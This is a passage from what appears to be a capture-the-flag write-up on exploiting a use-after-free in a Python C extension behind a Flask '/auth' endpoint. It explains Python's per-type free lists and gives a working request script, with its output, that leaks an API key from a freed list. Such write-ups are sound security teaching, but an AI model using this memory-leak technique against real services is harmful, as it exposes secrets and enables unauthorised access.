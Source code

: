 127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
Fatal Python error: deletion of interned string failed
[1]    21191 segmentation fault (core dumped)  python auth.py
{% endhighlight %}
Ok, so we seem to have some sort of heap-based SIGSEV. The dictionary that Python is expected to be there is now `free`'d / deallocated, and its causing a crash. How can we exploit this? We gotta [dive deeper](https://docs.python.org/2.7/c-api/memory.html).

A couple important facts on Python:

1. Everything on Python is managed on a private heap, managed internally by Python
2. Python's memory manager has different segments for each type of object. So integers, lists, dictionaries, etc. are all managed differently, but together, within the private heap
3. These separate areas are managed as (or like) [fast bins](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks.html#fast-bins): last in, first out.
4. This can be seen by reviewing the source code for [various](https://github.com/python/cpython/blob/master/Objects/dictobject.c#L1974] (deallocators)[https://github.com/python/cpython/blob/master/Objects/listobject.c#L360) -- if there is space on the `free_list`, it adds the pointer to the deallocated object to the `free_list` for that type of object.
 
Knowing all of this, we can successfully exploit this code, or at least potentially read items we shouldn't be able to read. Remember: this code path does _not_ check the data type of `"data"` from our JSON. It also deallocs that type of object from memory, meaning that pointer is now pointing to a different object of the same _type_ of `"data"`. Lastly, `ses.so` returns that object to `auth.py`, which prints it to the user. So, by passing in various types of `"data"`, we can read the last item of that type created in Python's heap.

After a bit of trial and error with different object types, we get a success: `{"data": []}`:
{% highlight python %}
import requests

HOST = 'localhost'
PORT = '5000'
BASE_URL = 'http://' + HOST + ':' + PORT

init = requests.get(BASE_URL)
cookies = init.cookies.get_dict()

for i in range(10):
    exploit = requests.post(
            BASE_URL + '/auth', 
            json={"data":{"username": "aaa", "password": "aaa"}},
            headers={'Content-Type': 'application/json'}, 
            cookies=cookies
    )

exploit = requests.post(
        BASE_URL + '/auth', 
        json={"data":[]},
        headers={'Content-Type': 'application/json'}, 
        cookies=cookies
)
if '/api/<api_key>' in exploit.text:
    print(exploit.text)
{% endhighlight %}
results in
{% highlight shell %}
➜  python exploit.py
{"authenticated":false,"result":"Cannot authenticate with data: ['/api/<api_key>/job', '1e18cb7c2be07907d12f52e505404081bd902e3af0fd6fd4437275bb71d7fe15', 1559695142] - Too many tentatives, wait 2 minutes!"}
{% end highlight %}
The last `list` loaded onto Python's heap before the list we send is the list used to initiate the `SessionManager`, which contains the API key we need!
